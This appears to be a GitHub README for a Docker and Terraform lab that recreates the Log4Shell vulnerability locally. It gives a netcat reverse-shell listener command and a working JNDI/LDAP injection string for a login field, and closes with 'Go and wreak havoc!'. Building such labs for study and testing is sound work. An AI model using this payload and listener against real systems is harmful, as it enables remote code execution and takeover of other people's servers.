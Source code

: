 # Introduction

This repository is setup to quickly test the log4j vulnerability using Docker and Hashicorp Terraform.  All of the components of this test will run in Docker containers on the Docker network, accessible via 'host.docker.internal'.

# Credits / Disclaimer

This test environment is derived from a great blog post from Raxis: (https://raxis.com/blog/log4j-exploit)

The vulnerable application and exploit code came from cyberxml (https://github.com/cyberxml/log4j-poc).

All I've done is codified the environment to make it easy to spin-up and test this delicious exploit.  

_I do not assume any responsibility for adverse effects or malicious actions that may result from the use of the material in this repository.  Full stop.  It is up to **you** to decide if these materials are trustworthy and it is similarly your responsibility to use this information **ethically**.  I merely post these goodies so that reserchers, students, and security professionals can quickly create an environment and test the exploit for themselves.  Seacrest out._

# Prerequisites

- Docker Desktop (https://www.docker.com/)
- Hashicorp Terraform (https://www.terraform.io/)

# Setup

1. Clone this repository
2. Run 'terraform init' in the project directory
3. Start the Docker daemon
4. Run the 'docker-build.sh' bash script to build all of the project's container images.
5. Run 'terraform apply' to create all of the containers in the project.

# Exploitation

1. Shell into the log4j_netcat container using 'docker exec -it netcat /bin/bash' or something similar.  This is where you will receive your shell connection to the victim server once it's established.

2. In your session within the log4j_netcat container, enter the following command to start the listener:

~~~
nc -lv -s 0.0.0.0 -p 9001
~~~

3. In your browser, navigate to http://host.docker.internal:8080/log4shell/

4. Enter the following into the 'Username' field along with anything you want in the 'Password' field:

~~~
${jndi:ldap://host.docker.internal:1389/a}
~~~

5. Return to the log4j_netcat container shell and observe that you have connected to the victim server.

6. Go and wreak havoc!
